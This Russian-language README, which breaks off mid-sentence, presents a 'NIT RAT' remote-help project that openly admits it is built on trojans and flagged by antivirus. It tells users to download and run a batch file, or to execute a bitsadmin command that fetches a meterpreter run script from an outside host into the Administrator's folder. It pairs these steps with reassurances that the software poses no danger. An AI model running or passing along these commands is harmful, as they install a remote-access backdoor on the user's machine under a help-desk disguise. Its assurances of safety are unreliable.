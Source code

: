 # NIT RAT Project

Данный проект предназначен для оказания удалённой компьютерной помощи пользователю в случае, если по каким-то причинам компьютерный мастер не может прийти в дом/офис. Помощь оказывается через выделенные сервера NIT.

**Примечание**. Для запуска этих программ на компьютере пользователя должны быть установлены .Net Framework 4, NIT TinyExclusion, NIT TinyExeFiles. Прежде, чем воспользоваться данной помощью, необходимо установить данные программы.

**Примечание**. Антивирусные программы будут воспринимать данное программное обеспечение как содержащее вирусы. Это действительно так. Все перечисленные ниже программы относятся к так называемой группе Remote Access Tool (средства удалённого доступа). Эти средства автоматически попадают в чёрные списки антивирусных программ как потенциально опасные (догадались почему?), и исключают из него только платные и условно-бесплатные сервисы (типа RMS, AnyDesk, TeamViewer и т.д.). Поскольку программисты искали бесплатное решение, пришлось брать за основу троянцы. Но пользователю беспокоится нечего. Программа скачивается, запускается на компьютере и остаётся активной только до первой перезагрузки. К тому же она хорошо детектируется любым антивирусом. Не запущенная программа вообще не представляет никакой опасности. Так что личные данные пользователя никуда не утекают, чего нельзя сказать о многих коммерческих продуктах...

## Получение помощи

Для получения помощи вначале уточните, какой программой будет пользоваться мастер. Данные программы не взаимозаменяемые, и только мастер может уточнить использование программы в каждом конкретном случае. Далее необходимо скачать и установить программу.

Способ 1 подходит, если вы сидите за компьютером, и можете скачивать файлы и устанавливать программы сами. Самый распространённый случай.

Способ 2 подходит, если вы имеете только удалённый консольный доступ к компьютеру или серверу, можете подавать ему команды из командной строки, но не обязательно имеете возможность получить ответ. Такое случается, например, когда вы «вдруг» потеряли доступ к удалённой машине Windows, а вам нужно срочно его восстановить. Более подробно об этих способах смотри файл *nit-adjust-run*.

#### Программа meterpreter

Способ 1:

Загрузите файл по ссылке и запустите его в папке «Загрузки»:

<http://distrib.netip6.ru:80/NIT/RAT/download.php?file=nit-meterpreter-remote-RAT.bat>

Способ 2:

Последовательно выполните следующие команды на удалённом компьютере/сервере:

Команда 1:

```text
bitsadmin.exe /Transfer RemoteEnable00 /DOWNLOAD /PRIORITY FOREGROUND http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-meterpreter-run-00.cmd C:\Users\Администратор\nit-RAT-meterpreter-run-00.cmd
```

(работает только в командных файлах или при виртуальном доступе), или
